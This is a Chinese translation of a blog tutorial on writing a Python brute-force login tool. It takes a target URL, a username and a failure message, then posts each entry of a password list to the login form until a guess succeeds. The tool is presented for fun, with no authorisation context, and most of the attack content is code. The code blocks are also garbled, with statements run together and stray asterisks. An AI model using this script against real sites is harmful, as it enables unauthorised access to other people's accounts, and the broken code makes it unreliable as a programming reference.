


# 用 Python 进行暴力攻击！

> 原文：<https://blog.devgenius.io/brute-force-attack-with-python-c1d70fcba607?source=collection_archive---------0----------------------->


2007 年我第一次上 7 班的时候，看了 [*黑客*](https://www.imdb.com/title/tt0113243/) 电影。安吉丽娜·朱莉和她的男朋友正在扼杀一切。那天我意识到我不想成为彼得·帕克。我想成为安吉丽娜的男朋友。也许因为黑客很酷，所以成为一名黑客比被蜘蛛咬了一口然后成为蜘蛛侠更现实。长大后，我开始满怀激情地学习编程。但在我的情况下，当我只学习却不能做或创造我喜欢的酷的东西时，这是最糟糕的事情。我可能会创建一个报告仪表板或一些 POS 系统，但这不是我想要的，这是我的客户想要的。当你创造你想要的东西时，你的学习就会变得有趣和愉快。

# 什么是暴力攻击？

> 暴力攻击是一种流行的破解方法:根据一些报道，暴力攻击占已确认的安全漏洞的 5%。暴力攻击包括“猜测”用户名和密码，以获得对系统的未授权访问。暴力破解是一种简单的攻击方式，成功率很高。

# 用 python 创建自己的蛮力！

让我们开始制作自己的暴力应用程序。首先，创建一个. py 文件，并随意命名。我给我的一只取名为 bruteForce.py。

之后，我们需要安装**请求**，我们可以简单地通过

```
pip install requests
```

现在是编码时间。

```
import requestsurl = input("Enter Target Url: ")
username = input("Enter Target Username: ")
error = input("Enter Wrong Password Error Message: ")try:
    def bruteCracking(*username*,*url,error*):
        for password in passwords:
            password = password.strip()
            print("Trying:" + password)
            data_dict = {"username": username,"password": password,                           "login":"submit"}
            response = requests.post(url, *data*=data_dict)
            if error in str(response.content):
               pass
            elif "csrf" in str(response.content):
                 print("CSRF Token Detected!! BruteF0rce Not Working This Website.")
                 exit()
            else:
                 print("Username: ---> " + username)
                 print("Password: ---> " + password)
                 exit()
except:
       print("Some Error Occurred Please Check Your Internet Connection !!")with open("passwords.txt", "r") as passwords:
     bruteCracking(username,url,*error*)print("[!!] password not found in password list")
```

# 解释！！

首先，我们需要导入请求。因为 Requests 允许您极其轻松地发送 HTTP/1.1 请求。之后，我们只需要输入目标 URL 和目标用户名。此外，我们需要每一次错误尝试的错误消息。



错误消息！！

仔细看这张图片。在这里，每一次错误的尝试，都会抛出错误的用户名或密码消息。我们需要这个信息。所以现在我们已经抓住了三样东西。

1.  目标网站。
2.  网站登录用户名。
3.  错误消息。

现在我们编写一个名为*的函数，它调用三个名为用户名、url 和错误的参数。此外，它调用一个密码列表文件。现在我们需要创建一个包含所有可能的密码列表的 [passwords.txt](https://github.com/Antu7/python-bruteForce/blob/master/passwords.txt) 文件。*

```
with open("passwords.txt", "r") as passwords:
     bruteCracking(username,url,*error*)
```

在这里，我们只是通过读取 passwords.txt 文件来调用 bruteCracking 函数。现在，在我们的主 bruteCracking 函数中，我们创建了一个 for 循环来从给定的密码列表中获取密码。为了消除空白，我们使用 strip()函数。现在，我们打印我们正在尝试访问该网站的密码。之后，我们创建一个发送请求的字典。

```
data_dict = {"username": username,"password": password,                           "login":"submit"}
```

这里的用户名和密码很简单，但是“登录”:“提交”元素是新的



为此，您需要检查登录页面。如果你仔细查看这个检查，你会发现按钮类型=“提交”和名称=“登录”

```
<button type="submit" name="login" class="btn btn-success btn-labeled pull-right">Sign in</button>
```

实际上你每次尝试都会自动触发登录按钮。现在您将使用请求 post 方法发送您的字典。当你发送的时候，它会给你一个回复。所以我们把这个响应放在一个叫做 response 的变量中。

```
if error in str(response.content):
    pass
elif "csrf" in str(response.content):
    print("CSRF Token Detected!! BruteF0rce Not Working This Website.")
    exit()
else:
     print("Username: ---> " + username)
     print("Password: ---> " + password)
     exit()
```

现在，如果我们发现错误消息在 response.content 中，我们将简单地传递它并尝试下一个密码，因为它不是我们的密码。但是如果我们在这个回答中找到 CSRF。意味着*我们在劫难逃的内容！！我们的应用程序不能在这个网站上工作。什么是 CSRF 代币请谷歌一下。如果它没有返回任何数据，这意味着它成功了。*

> 恭喜你！！！我们找到用户名和密码。

这是一个非常基本的使用 python 的暴力攻击应用程序。用这个，你可能会有一些乐趣。你会发现一些灵感来学习更多。快乐编码。

如果你想要这个完整的代码，请检查这个 [Github 回购](https://github.com/Antu7/python-bruteForce)。